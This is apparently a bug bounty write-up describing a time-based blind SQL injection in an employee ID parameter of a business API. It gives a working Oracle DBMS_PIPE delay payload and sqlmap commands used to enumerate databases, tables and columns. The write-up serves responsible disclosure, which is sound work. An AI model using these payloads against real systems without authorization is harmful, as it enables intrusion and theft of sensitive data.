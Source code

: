 # Steps to Reproduce:


1. The activity which caught my attention is the **EMP_ID** parameter after trying to login using the random values.

![](https://miro.medium.com/v2/resize:fit:650/1*8SkaB8DkFo0F1Lxe4Y10Iw.png)

2. The discovered endpoint was **/api/business/business_kpi** which was having the employee ID parameter.

3. There I tried to add the “ **’** ”, where it gave 500 Internal server error.

![](https://miro.medium.com/v2/resize:fit:700/1*mOtawOZeFSWAe_P7LYdWPg.png)

4. Then I added **_EMP_ID=3710+AND+1=0 —_** , I noticed that in response the data is changed by adding.

5. By checking the behavior, further I used **SQLMAP** with the burp POST request, I got the below vulnerable payload which I tried in burp request and observed a delay as shown in the screenshot below.

**Vulnerable Payload:** EMP_ID=4727 AND 4900=DBMS_PIPE.RECEIVE_MESSAGE(CHR(114)||CHR(105)||CHR(105)||CHR(113),5)&LEVEL=UH&UNIT=BHAG

![](https://miro.medium.com/v2/resize:fit:700/1*4cjNGlk9yynXX50IznIRlA.png)

9. To retrieve the information, I saved the burp request and run the _SQLMAP_ using below command.

> **sqlmap -r burprequest.txt -technique=T — dbs**

![](https://miro.medium.com/v2/resize:fit:700/1*0ay1c7sr23rUDWQ-TDrTGA.png)

![](https://miro.medium.com/v2/resize:fit:700/1*HRAzCwl21d8sQEiemvswSA.png)

By using the tool, I was able to retrieve the database and further sensitive information.

> **sqlmap -r burprequest.txt -technique=T -D <database_name> — tables**

![](https://miro.medium.com/v2/resize:fit:700/1*eF5Ch-dObBnlT0aOjYa4BA.png)

Further, I tried extracting the details within the databases.

> **sqlmap -r burprequest.txt -technique=T -D <database_name> -T — columns**

![](https://miro.medium.com/v2/resize:fit:700/1*Wwn36MMR7QCpfCIb92dkWA.png)

At last I reported the vulnerability to the program with all the details and impact. Looking at the criticality the program responded back and within a day they fixed the issue.

**NOTE: Extracted data was deleted ;)**


